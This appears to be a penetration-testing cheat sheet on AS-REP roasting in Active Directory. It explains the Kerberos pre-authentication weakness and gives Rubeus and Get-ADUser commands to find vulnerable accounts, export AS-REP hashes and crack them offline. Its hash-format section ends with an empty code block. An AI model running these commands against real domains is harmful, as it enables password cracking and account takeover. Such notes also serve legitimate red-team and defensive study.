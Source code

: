 # Active Directory - AS_REP roasting

### Overview

An ASP_REP roasting attack is an attack on the `Kerberos` authentication
protocol that involves compromising the password of an user account that do not
require `Kerberos` pre-authentication.

The attack is based on the fact that the `KRB_AS_REP` response, in reply from
the `KDC (Key Distribution Center)` for an initial authentication request
`KRB_AS_REQ` to the `Authentication Service (AS)`, contains ciphertext
encrypted using the client's secret key.

By default, the `KRB_AS_REQ` must include a timestamp encrypted with the
client's secret key, in order to permit the verification of the user identity
before the `KDC` returns a `KRB_AS_REP` response. This verification is omitted
for user accounts that do not require `Kerberos` pre-authentication, i.e
accounts with the account property `DONT_REQ_PREAUTH`. These user accounts
secrets are exposed to offline cracking, against the ciphertext, attack that
are much faster and can not be time restricted.

### Automated DONT_REQ_PREAUTH user accounts discovery and export of AS-REP responses

The following tools can be used to automate the discovery of user accounts that
do not require `Kerberos` pre-authentication and the request and export of
`KRB_AS_REQ` response for offline cracking.

In order to enumerate the domain user accounts, `Rubeus` must be started in a
domain authenticated security context or provided working domain credentials.

```
Rubeus.exe asreproast /outfile:<FILE>

Rubeus.exe asreproast /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /outfile:<FILE_PATH>
```

### DONT_REQ_PREAUTH user accounts discovery

The following tools can be used to discover user accounts that do not require
`Kerberos` pre-authentication:

```
Get-ADUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"

Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
```

### Request and export of KRB_AS_REP responses

The following tools can be used to request and export `KRB_AS_REP` for user
accounts that do not require `Kerberos` pre-authentication:

```
Rubeus.exe asreproast /user:<USERNAME>

Rubeus.exe asreproast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /user:<USERNAME>
```

### Offline cracking of KRB_AS_REP responses

Both `John the Ripper` (magnumripper fork) and `hashcat` can be used to crack
the KRB_AS_REP responses.

The hash needs to respect the following format to be recognized by `John` /
`hashcat`:

```
```
